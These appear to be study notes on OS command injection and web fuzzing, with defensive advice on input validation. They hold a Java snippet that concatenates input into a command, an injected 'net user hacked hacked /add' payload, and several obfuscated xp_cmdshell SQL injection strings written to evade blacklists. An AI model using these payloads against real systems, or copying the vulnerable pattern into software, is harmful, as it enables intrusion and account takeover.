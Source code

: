 # OS Command Injection


* Methodology:
	- Identify data entry points
	- Inject data (payloads)
	- Detect anomalies from the response.
	- Automate



* For example for snippet:
```
String cmd = new String("cmd.exe /K processReports.bat clientId=" + input.getValue("ClientId"));
Process proc = Runtime.getRuntime().exec(cmd);
```
For a client id equal **444**, we would have the following string:
```
cmd.exe /K processReports.bat clientId=444
```

However, an attacker could run use the client id equal **444 && net user hacked hackerd/add**. In this case, we have the following string:

```
cmd.exe /K processReports.bat clientId=444 && net user hacked hacked /add
```

## Examples of Injectuon Payloads:

* Control characters and common attack strings:
	- '-- SQL injection
	- && | OS Command Injection
	- <> XSS

* Long strings (AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA)

* Binary or Null data


## Fuzz Testing Web Applications

* Focus on the relevant attack sruface of the web application.
* Typically HTTP request parameters:
	- QueryString
	- POST data
	- Cookies
	- Other HTTP headers (User-Agent, Referer)

* Other entry points with request structures:
	- XML web services
	- WCF, GWT, AMF
	- Remote Method Invoation (RMI)

* Fixing injection flaws:
	- Comphehensive, consistent server-side input validation
	- User Safe command APIs
	- Avoid concatenating strings passed to an interpreter
	- Use strong data types in favor of strings

### Whitelist input validation
- Input validated against known GOOD values.

- Exact match:
		* A specific list of exact values is defined
		* Difficult when large set of values is expected
- Pattern matching:
		* Values are matched against known good input patterns.
		* Data type, regular expressions, etc.

### Blacklist input validation

- Input validated against known BAD values.
- Not as effective as whitelist validation.
		* Susceptible to bypass via encoding
		* Global protection and therefore often not aware of context.
- Constantly changing given dynamic of application attacks.

#### Evading Blacklist filters

Exploit payloads: 

```
';exec xp_cmdshell 'dir';--
```

```
‘;Declare @cmd as varchar(3000);Set @cmd =
 ‘x’+'p’+'_’+'c’+'m’+'d’+’s’+'h’+'e’+'l’+'l’+'/**/’+””+’d’+’i'+’r’+””;exec(@cmd);--
```
```
‘;ex/**/ec xp_cmds/**/hell ‘dir’;--
```

```
Declare @cmd as varchar(3000);Set @cmd
=(CHAR(101)+CHAR(120)+CHAR(101)+CHAR(99)+CHAR(32)+CHAR(109)+CHAR(97)+CHAR(115)+CHA
R(116)+CHAR(101)+CHAR(114)+CHAR(46)+CHAR(46)+CHAR(120)+CHAR(112)+CHAR(95)+CHAR(99)+
CHAR(109)+CHAR(100)+CHAR(115)+CHAR(104)+CHAR(101)+CHAR(108)+CHAR(108)+CHAR(32)+CH
AR(39)+CHAR(100)+CHAR(105)+CHAR(114)+CHAR(39)+CHAR(59));EXEC(@cmd);--
```

```
‘;Declare @cmd as varchar(3000);Set @cmd =
 convert(varchar(0),0×78705F636D647368656C6C202764697227);exec(@cmd);--
```